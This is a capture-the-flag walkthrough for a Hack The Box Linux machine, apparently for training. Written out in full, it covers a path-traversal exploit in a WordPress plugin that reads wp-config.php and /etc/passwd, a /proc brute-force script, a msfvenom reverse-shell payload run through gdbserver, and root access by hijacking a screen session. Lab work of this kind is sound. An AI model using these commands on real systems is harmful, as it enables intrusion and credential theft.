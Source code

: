 ## 📌 Box Info
- **OS**: [Linux](Linux)
- **Difficulty**: [Easy](Easy)
- Platform: [HTB](HTB)

---

## 🔍 Recon

### Nmap Scans
```bash
nmap -p- --min-rate 10000 -oA scans/nmap-alltcp 10.10.11.125
nmap -p 22,80,1337 -sCV -oA scans/nmap-tcpscripts 10.10.11.125
```

### Manual Checks
```bash
nc -v 10.10.11.125 1337
curl 10.10.11.125:1337
```

---

## 🌐 [Website & WordPress Recon](HTTP)

### /etc/hosts Update
```bash
echo "10.10.11.125 backdoor.htb" | sudo tee -a /etc/hosts
```

### WPScan
```bash
wpscan -e ap,t,tt,u --url http://backdoor.htb --api-token $WPSCAN_API
wpscan -e ap --plugins-detection aggressive --url http://backdoor.htb --api-token $WPSCAN_API
```

### Feroxbuster (Plugin Discovery)
```bash
feroxbuster -u http://backdoor.htb/wp-content/plugins -w plugins.txt
```

---

## 🧪 Shell as User

### Ebook Download Plugin Exploit
```bash
# Check plugin version
curl http://backdoor.htb/wp-content/plugins/ebook-download/readme.txt

# Exploit LFI to read wp-config
curl http://backdoor.htb/wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=../../../wp-config.php

# Read /etc/passwd
curl http://backdoor.htb/wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=../../../../../../../etc/passwd
```

### Process Enumeration via /proc
```bash
curl -s http://backdoor.htb/wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=/proc/self/cmdline | tr '\000' ' ' | cut -c115- | rev | cut -c32- | rev
```

### Bash Script to Find gdbserver
```bash
#!/bin/bash
for i in $(seq 1 50000); do
    path="/proc/${i}/cmdline"
    skip_start=$(( 3 * ${#path} + 1))
    skip_end=32

    res=$(curl -s http://backdoor.htb/wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=${path}ne -o- | tr '\000' ' ')
    output=$(echo $res | cut -c ${skip_start}- | rev | cut -c ${skip_end}- | rev)
    if [[ -n "$output" ]]; then
        echo "${i}: ${output}"
    fi
done
```

---

## 🧨 Exploit gdbserver (User Shell)

### Create Reverse Shell Payload
```bash
msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.14.6 LPORT=443 PrependFork=true -f elf -o rev.elf
```

### GDB Remote Exploit
```bash
gdb -q rev.elf
(gdb) target extended-remote 10.10.11.125:1337
(gdb) remote put rev.elf /dev/shm/rev
(gdb) set remote exec-file /dev/shm/rev
(gdb) run
```

### Catch the Shell
```bash
nc -lnvp 443
```

### Upgrade the Shell
```bash
script /dev/null -c bash
# then Ctrl+Z
stty raw -echo; fg
# then type
reset
# when prompted:
screen
```

---

## 💣 Metasploit Method (Alternative)

```bash
msfconsole
use exploit/multi/gdb/gdb_server_exec
set RHOSTS 10.10.11.125
set RPORT 1337
set LHOST tun0
run
```

---

## ⚡ Shell as Root

### Spot screen Process
```bash
ps auxww | grep screen
```

### Connect to Root's Screen Session
```bash
screen -ls root/
TERM=screen screen -x root/[session_id]
# OR
TERM=screen screen -x root/root
```

---

## 🏁 Flags
```bash
cat /home/user/user.txt
cat /root/root.txt
```